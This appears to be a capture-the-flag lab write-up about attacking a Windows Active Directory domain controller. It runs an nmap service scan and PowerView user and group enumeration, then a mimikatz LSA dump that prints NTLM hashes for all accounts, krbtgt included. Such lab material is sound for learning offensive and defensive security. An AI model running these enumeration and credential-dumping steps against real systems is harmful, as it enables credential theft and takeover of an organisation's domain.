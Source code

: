 # 扫描服务
└─#  nmap -sV 10.10.56.142
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-23 04:41 EDT
Nmap scan report for 10.10.56.142
Host is up (0.31s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-08-23 08:42:22Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: DOMAIN-CONTROLL; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.51 seconds




# 枚举domain用户
PS C:\Users\Administrator\Downloads> Get-NetUser | select cn                                                                                                                                                                              

cn                  
--                                    
Administrator                         
Guest                                 
krbtgt                                
Machine-1                             
Admin2                                
Machine-2                             
SQL Service                           
POST{P0W3RV13W_FTW}                   
sshd 


# Enumerate the domain groups

PS C:\Users\Administrator\Downloads> Get-NetGroup -GroupName *admin* 
Administrators 
Hyper-V Administrators         
Storage Replica Administrators 
Schema Admins                  
Enterprise Admins              
Domain Admins                  
Key Admins                     
Enterprise Key Admins          
DnsAdmins                             
PS C:\Users\Administrator\Downloads>  


# 转存hash
lsadump::lsa /patch

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2 
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6 

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 34e87ecf5948c7615e8dc75bda5c322b

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a




Machine1:64f12cddaa88057e06a81b54e73b949b
Machine2:c39f2beb3d2ec06a62cb887fb391dee0
